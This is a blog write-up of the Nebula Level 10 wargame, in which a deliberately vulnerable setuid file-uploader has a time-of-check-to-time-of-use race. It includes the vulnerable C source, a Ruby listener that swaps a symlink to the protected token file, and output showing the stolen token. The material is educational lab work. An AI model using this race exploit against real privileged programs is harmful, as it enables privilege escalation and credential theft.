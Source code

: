 ```yaml
---
title: "Exploit Exercises - Nebula Level 10"
date: 2014-01-25 12:40:53+08:00
tags: 
- Security
- Exercises
- Nebula
---
```


### About

The setuid binary at */home/flag10/flag10* binary will upload any file given, as long as it meets the requirements of the *access()* system call.

To do this level, log in as the *level10* account with the password *level10*. Files for this level can be found in /home/flag10.

### Source Code

``` c
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
    exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
    int fd;
    int ffd;
    int rc;
    struct sockaddr_in sin;
    char buffer[4096];
  	
    printf("Connecting to %s:18211 .. ", host); fflush(stdout);
  	
    fd = socket(AF_INET, SOCK_STREAM, 0);
  	
    memset(&sin, 0, sizeof(struct sockaddr_in));
    sin.sin_family = AF_INET;
    sin.sin_addr.s_addr = inet_addr(host);
    sin.sin_port = htons(18211);
  	
    if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
      printf("Unable to connect to host %s\n", host);
      exit(EXIT_FAILURE);
    }
  	
#define HITHERE ".oO Oo.\n"
    if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
      printf("Unable to write banner to host %s\n", host);
      exit(EXIT_FAILURE);
    }
#undef HITHERE
  
    printf("Connected!\nSending file .. "); fflush(stdout);
  	
    ffd = open(file, O_RDONLY);
    if(ffd == -1) {
      printf("Damn. Unable to open file\n");
      exit(EXIT_FAILURE);
    }
  	
    rc = read(ffd, buffer, sizeof(buffer));
    if(rc == -1) {
      printf("Unable to read from file: %s\n", strerror(errno));
      exit(EXIT_FAILURE);
    }
  	
    write(fd, buffer, rc);
  	
    printf("wrote file!\n");
  } else {
    printf("You don't have access to %s\n", file);
  }
}
```

<!-- more -->

There at two files in the directory /home/flag10, *flag10* and *token*. The source code of executable *flag10* in shown above, and *token* contains the password of user *flag10*. The goal is to read the content of *token*.

The attack comes from a common bug called [Time of check to time of use](http://en.wikipedia.org/wiki/Time-of-check-to-time-of-use), the Wiki page above explains precisely about what this bug is and how it can be exploited. So in my imagination this is how this attack would look like: 

1. pass */home/level10/token* whick links to a real user(*level10*) readable file */home/level10/test* to the program as `argv[1]`
2. */home/flag10/flag10* checks whether this file is accessable at line 24(with the result true)
3. modify the file to link to */home/flag10/token* when */home/flag10/flag10* is executing code between line 24 and line 54
4. when */home/flag10/flag10* reads the file at line 54, it reads */home/flag10/token*

The most important step mentioned above is step 3, it is hard to control the time! Fortunately, the *flag10* program will send a banner before actually read the file(line 46), this leaves me some time to make some change!

Notice that the content of the file would be transmit through a socket connection, so I need to write my own server code. In my consideration, I need to change the file */home/level10/token* immediately after the server accepts a connection from the client, I wrote this server code in Ruby:

``` ruby
require 'socket'

server = TCPServer.new(18211)
loop {
    client = server.accept
    `rm /home/level10/token; ln -s /home/flag10/token /home/level10/token`
    while msg = client.gets
        puts "RECV: #{msg}"
    end
}
```

After the server was started, I triggered the vulnerability with the following command

	$ /home/flag10/flag10 ~/token 127.0.0.1

Note that the symbolic file *~/token* must exist and point to a file that is readable by user *level10* before the program *flag10* is executed. 

The output of the Ruby code was not always as expected, sometimes the client read the file before the server changed it, but as long as it could be right, it hacked!

``` bash
level10@nebula:~$ ruby serv.rb 
RECV: .oO Oo.
RECV: hello world

level10@nebula:~$ ruby serv.rb 
RECV: .oO Oo.
RECV: 615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
```
